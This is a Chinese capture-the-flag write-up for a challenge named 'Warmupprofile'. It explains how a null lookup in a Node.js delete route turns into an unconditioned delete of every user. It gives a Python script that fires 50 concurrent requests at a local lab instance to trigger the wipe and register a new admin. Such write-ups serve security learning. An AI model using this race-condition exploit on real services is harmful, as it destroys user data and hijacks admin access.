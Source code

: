 # Warmupprofile

🎯Target：以管理员身份登录

⛳Approach：删除原来的管理员账户，重新注册一个admin

🔧Dilemma：非管理员用户只能删除自己的账户

```js
app.post('/user/:username/delete', needAuth, async (req, res) => {
    const { username } = req.params;
    const { username: loggedInUsername } = req.session;
    if (loggedInUsername !== 'admin' && loggedInUsername !== username) {
        flash(req, 'general user can only delete itself');
        return res.redirect('/');
    }

    // find user to be deleted
    const user = await User.findOne({
        where: { username }
    });

    await User.destroy({
        where: { ...user?.dataValues }
    });

    // user is deleted, so session should be logged out
    req.session.destroy();
    return res.redirect('/');
});
```

若`User.findOne`返回null，即找不到当前账号

`user?.dataValues`就会为`undefined`，即`User.destroy`的条件为空

这会造成`DELETE FROM Users`进而将所有用户删除

而恰好存在`User.findOne`这种有些耗时的操作，多进程去访问这个接口，在`req.session.destroy()`触发之前，让第二个进程挤进这个路由。

考虑条件竞争

```python
import requests
import threading

url = 'http://127.0.0.1:3000/'


def run(ses):
    ses.post(url + "user/a/delete")


sess = requests.session()
sess.post(url + "register", data={"username": 'a', "password": 'a', "profile": 'a'})
sess.post(url + "login", data={"username": 'a', "password": 'a'})
for i in range(50):
    threading.Thread(target=run, args=(sess,)).start()
```

![image-20230719155928467](../.gitbook/assets/image-20230719155928467.png)

本地打通了，环境装我服务器上打不通。。。大概是网络不好？

既然这样就加大并发力度，使用burp的`turbo intruder`模块

![image-20230719161305166](../.gitbook/assets/image-20230719161305166.png)

效果还是不错的🤞

# jqi

🎯Target：获取环境变量中的flag

⛳Approach：json query injection

🔧Dilemma：绕WAF